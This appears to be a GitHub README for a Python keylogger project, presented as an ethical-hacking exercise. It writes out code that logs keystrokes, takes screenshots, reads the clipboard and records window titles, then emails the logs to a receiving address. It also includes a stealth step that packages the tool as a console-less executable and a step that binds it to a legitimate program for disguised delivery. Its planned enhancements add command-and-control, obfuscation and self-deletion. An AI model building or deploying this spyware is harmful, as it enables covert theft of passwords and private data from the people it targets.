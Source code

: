 # PYTHON-BASED KEYLOGGER

## Objective

This project aimed to develop a fully functional keylogger using Python that can capture and store keystrokes while operating stealthily in the background. The project included additional functionalities such as:

* Recording keystrokes in real-time.
* Taking periodic screenshots of the target machine.
* Capturing clipboard content.
* Logging active windows to track user activity.
* Operating in stealth mode with minimal detection.
* Sending collected data via email or storing it locally in a file.
* Optionally embedding the keylogger within a legitimate file for stealth delivery.
* This project provided hands-on experience in ethical hacking, malware development, and system monitoring.

### Skills Learned

* **Python programming** (Scripting, automation, and file handling)
* **Keyboard event monitoring** using the pynput module
* **Screenshot capturing** with Pillow (PIL)
* **Clipboard access** using pyperclip
* **Active window logging** with pygetwindow
* **Stealth operation techniques** (running in the background)
* **Data exfiltration** via email and **server-based** delivery
* **Building standalone executables** with pyinstaller

### Tools & Libraries Used

* **Python 3** (Primary programming language)
* **pynput** (Keyboard event tracking)
* **Pillow (PIL)** (For taking screenshots)
* **pyperclip** (Clipboard access)
* **pygetwindow** (Tracking the active window)
* **smtplib** (Email sending)
* **pyinstaller** (Converting the script into an executable)

## Steps

1️⃣ **Setting Up the Keylogger**
* Imported pynput.keyboard.Listener to listen for keystrokes.
* Created a function to store the captured keystrokes in a log file.
* Ensured that special keys (Enter, Shift, etc.) were properly recorded.

📌 **Code Snippet: Keystroke Logging:**
```python
from pynput.keyboard import Listener

def log_keystroke(key):
    with open("logs.txt", "a") as file:
        file.write(str(key) + "\n")

with Listener(on_press=log_keystroke) as listener:
    listener.join()
```

2️⃣ **Capturing Screenshots**
* Used the Pillow (PIL) library to capture and save screenshots at regular intervals.
* Saved screenshots to a predefined directory.

📌 **Code Snippet: Screenshot Capture**
```python
from PIL import ImageGrab
import time

def take_screenshot():
    screenshot = ImageGrab.grab()
    screenshot.save(f"screenshot_{time.strftime('%Y%m%d-%H%M%S')}.png")

take_screenshot()
```

3️⃣ **Capturing Clipboard Content**
* Used pyperclip to extract the contents of the clipboard.
* Logged clipboard data alongside keystroke logs.

📌 **Code Snippet: Clipboard Logging**
```python
import pyperclip

def get_clipboard():
    clipboard_data = pyperclip.paste()
    with open("logs.txt", "a") as file:
        file.write("\nClipboard Data: " + clipboard_data + "\n")

get_clipboard()
```

4️⃣ **Logging Active Window Titles**
* Used pygetwindow to track and log the active window.
* This helped in identifying which applications were being used while typing.

📌 **Code Snippet: Active Window Tracking**
```python
import pygetwindow as gw

def get_active_window():
    active_window = gw.getActiveWindow()
    if active_window:
        with open("logs.txt", "a") as file:
            file.write("\nActive Window: " + active_window.title + "\n")

get_active_window()
```

5️⃣ **Sending Data via Email**
* Used Python’s built-in smtplib to send collected logs and screenshots via email.
* Configured email settings to automate data exfiltration.

📌 **Code Snippet: Sending Logs via Email**
```python
import smtplib
from email.message import EmailMessage

def send_logs():
    email_sender = "abc123@example.com"
    email_receiver = "def456@example.com"
    password = "your_password"

    msg = EmailMessage()
    msg.set_content("Attached are the captured logs.")
    msg["Subject"] = "Keylogger Logs"
    msg["From"] = email_sender
    msg["To"] = email_receiver

    with open("logs.txt", "rb") as file:
        msg.add_attachment(file.read(), filename="logs.txt")

    server = smtplib.SMTP_SSL("smtp.example.com", 465)
    server.login(email_sender, password)
    server.send_message(msg)
    server.quit()

send_logs()
```

6️⃣ **Hiding the Keylogger (Stealth Mode)**
* Ensured the script ran in the background without a visible console window.
* Used pyinstaller to bundle the script into an executable file.

📌 **Code Snippet: Running in Background**
```python
import os

def hide_console():
    os.system("attrib +h logs.txt")

hide_console()
```

7️⃣ **Converting to an Executable**
* Used pyinstaller to package the script as an .exe file.
* Ensured it could be delivered as a standalone executable.

📌 **Command to Convert Script:**
```python
pyinstaller --onefile --noconsole keylogger.py
```

8️⃣ **Embedding in a Legitimate File**
* Explored methods of embedding the keylogger into a legitimate file.
* Used payload binding techniques to bundle the script with another executable.

📌 **Command to Bundle with Another File:**
```python
copy /b legitimate.exe + keylogger.exe output.exe
```

**Conclusion**
This project provided valuable experience in ethical hacking, malware development, and stealth operations. The keylogger was designed to be highly functional, capturing keystrokes, screenshots, clipboard data, and active windows while remaining hidden.

**Future Enhancements**
* Encrypting logs before exfiltration to enhance stealth.
* Using a C2 (Command & Control) server for remote access instead of email.
* Improving obfuscation techniques to evade detection.
* Adding self-destruct functionality to erase logs after exfiltration.

**This project demonstrates how keyloggers work and provides insights into security vulnerabilities that can be exploited. Ethical hackers and security professionals can use this knowledge to enhance system defenses against malicious threats.**
